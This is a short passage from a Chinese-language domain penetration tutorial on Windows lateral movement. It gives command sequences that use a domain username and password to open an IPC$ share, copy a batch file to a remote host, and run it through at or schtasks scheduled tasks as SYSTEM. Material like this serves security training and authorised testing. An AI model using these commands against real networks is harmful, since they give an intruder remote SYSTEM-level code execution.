




> 原文：[http://book.iwonder.run/域渗透/4.2.1.2.html](http://book.iwonder.run/域渗透/4.2.1.2.html)

#### 4.2.1.2 建立 IPC 连接、copy 文件、创建计划任务

```
net use \\192.168.19.169\c$ test@123 /user:adtest\jeff1 
copy 1.bat \\192.168.19.169\c$

net time \\192.168.19.169
at \\192.168.19.169 1:03 c:\1.bat 
```


#### schtasks

由于 at 在新版本的系统中已被弃用，我们需要用 schtasks 替代



```
schtasks /create /s 192.168.19.177 /u adtest\jeff1 /p test@123 /ru "SYSTEM" /tn test /sc DAILY /tr c:\1.bat /F 
```

创建计划任务，/s 指定远程机器名或 ip 地址，/ru 指定运行任务的用户权限，这里指定 为最高的 SYSTEM，/tn 是任务名称，/sc 是任务运行频率，这里指定为每天运行，并没什么 实际意义，/tr 指定运行的文件，/F 表示如果指定的任务已经存在，则强制创建任务并抑制警告


运行任务，其中/i 表示立即运行

```
schtasks /run /s 192.168.19.177 /u adtest\jeff1 /p test@123 /tn test /i 
```




删除计划任务

```
schtasks /delete /s 192.168.19.177 /u adtest\jeff1 /p test@123 /tn test /f 
```





